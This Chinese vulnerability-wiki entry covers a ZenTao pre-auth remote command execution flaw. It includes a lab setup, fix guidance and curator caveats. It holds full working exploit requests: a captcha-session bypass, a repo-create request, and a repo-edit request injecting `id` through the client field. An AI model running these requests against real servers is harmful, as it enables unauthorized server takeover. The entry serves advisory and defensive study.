





# 禅道ZenTao misc captcha会话污染到repo命令执行

## 条目说明

- 对象与具体问题：禅道ZenTao；misc captcha会话污染到repo命令执行
- 版本、配置及部署条件：开源17.4–18beta1/企业7.4–8beta1/旗舰3.4–4beta1，安全beta2
- 认证与权限前提：匿名会话污染后后台功能
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- repo-create是否必要与467实验不同，须保留版本/环境差异不强制删一步
- Content-Length154/112与短body不符；创建仓库有持久状态需清理
- 修复链接空，企业旗舰bate2错字；手工加exit仅针对绕过并非整体命令注入防护
- 默认DB凭据仅容器实验不应推广到生产

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

禅道项目管理系统存在远程命令执行漏洞，该漏洞源于在认证过程中未正确退出程序，导致认证绕过，并且后台中有多种执⾏命令的⽅式，攻击者可利用该漏洞在目标服务器上注入任意命令，实现未授权接管服务器。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

### 漏洞影响

```
禅道 >=17.4，<=18.0.beta1（开源版）
禅道 >=7.4，<=8.0.beta1（企业版）
禅道 >=3.4，<=4.0.beta1（旗舰版）
```

### 环境搭建

[源码安装](https://github.com/easysoft/zentaopms/archive/refs/tags/zentaopms_18.0.beta1.zip)，或执行如下命令启动一个禅道 18.0.beta1 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.0.beta1
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`：







### 漏洞复现

查看版本号：

```
http://your-ip:8084/?mode=getconfig
-----
{"version":"18.0.beta1","requestType":"PATH_INFO","requestFix":"-","moduleVar":"m","methodVar":"f","viewVar":"t","sessionVar":"zentaosid","systemMode":"ALM","sprintConcept":"0","URAndSR":"0","maxUploadSize":"50M","sessionName":"zentaosid","sessionID":"k6s9ogaog0hv3b8jjg1vqr6ll4","random":503,"expiredTime":"1440","serverTime":1743992417,"rand":503}
```




请求 `http://your-ip:8084/misc-captcha-user.html` ，在 `Set-Cookie` 中获取 `zentaosid`。

创建并制定仓库为 GItlab：

```http
POST /repo-create.html HTTP/1.1
Host: your-ip:8084
Cookie: zentaosid=69ld7c5h6n02k7i4iumt346den; lang=zh-cn; device=desktop; theme=default
Referer: http://your-ip:8084/index.php?m=user&f=login&referer=L2luZGV4LnBocD9tPXJlcG8mZj1jcmVhdGUmX3NpbmdsZT0xMjM=
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5408.146 Safari/537.36
Content-Type: application/x-www-form-urlencoded

product%5B%5D=1&SCM=Gitlab&name=poc&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

> 请求长度说明：原资料 Content-Length 为 154；静态长度已移除，应由客户端根据最终请求体的字节数生成。




命令执行：

```http
POST /repo-edit-10000-10000.html HTTP/1.1
Host: your-ip:8084
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid=69ld7c5h6n02k7i4iumt346den; lang=zh-cn; device=desktop; theme=default
Referer: http://your-ip:8084/index.php?m=user&f=login&referer=L2luZGV4LnBocD9tPXJlcG8mZj1jcmVhdGUmX3NpbmdsZT0xMjM=
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5408.146 Safari/537.36

SCM=Subversion&client=`id`
```

> 请求长度说明：原资料 Content-Length 为 112；静态长度已移除，应由客户端根据最终请求体的字节数生成。




### 漏洞修复

[升级]() 至安全版本：

- 开源版升级至 18.0.beta2 及以上版本；
- 企业版升级至 8.0.bate2 及以上版本；
- 旗舰版升级至 4.0.bate2 及以上版本。

临时防护措施：

- 可在 `module/common/model.php` 文件中 `echo $endResponseException->getContent();` 后面加上 `exit();` 来修复权限绕过漏洞


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
